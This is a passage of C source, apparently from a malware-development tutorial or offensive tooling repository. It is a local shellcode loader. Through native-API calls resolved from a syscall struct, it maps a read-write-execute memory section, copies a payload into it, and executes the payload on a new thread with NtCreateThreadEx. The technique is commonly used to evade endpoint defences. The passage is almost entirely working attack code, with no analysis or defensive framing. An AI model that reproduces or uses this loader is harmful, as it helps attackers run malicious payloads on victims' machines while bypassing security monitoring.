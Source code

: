 ```c
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}

//--------------------------------------------------------------------------	
	// Allocating local map view 

	if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sViewSize);

//--------------------------------------------------------------------------	
	// Writing the payload

	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------
	
	// Unmpaing the local view - only when the payload is done executing
	if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	if ((STATUS = St.pNtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}
```
